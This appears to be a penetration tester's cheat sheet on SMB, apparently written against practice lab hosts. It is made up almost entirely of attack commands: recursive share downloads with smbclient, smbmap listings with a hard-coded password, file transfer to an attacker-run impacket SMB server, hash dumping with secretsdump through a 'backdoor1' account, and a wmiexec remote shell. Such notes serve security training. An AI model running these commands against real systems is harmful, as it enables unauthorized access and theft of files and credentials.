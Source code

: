 # SAMBA

## How do I recursively download a directory using smbclient?

```
smbclient \\\\10.11.1.231\\home
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *

```
smbclient -L 192.168.175.10 --port=4455 --user=administrator

smbclient -L 10.11.1.31

### SMBMAP

`smbmap -u '' -p ''  -H 10.11.1.231 -R  'home'`

```
smbmap -H 10.10.10.100    # null session
smbmap -H 10.10.10.100 -R # recursive listing
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18

```

smbget -R smb://fileserver/directory

crackmapexec smb 10.11.1.5

To copy file from kali start a smb server on kali

impacket-smbserver mogli .


The on windows net use 

net use * \\ip of kali\mogli


# Didn't work for me
impacket-secretsdump backdoor1:evil123#@10.11.1.31 -outputfile hashes
python /usr/share/doc/python3-impacket/examples/wmiexec.py test:'evil123!'@10.11.1.31 

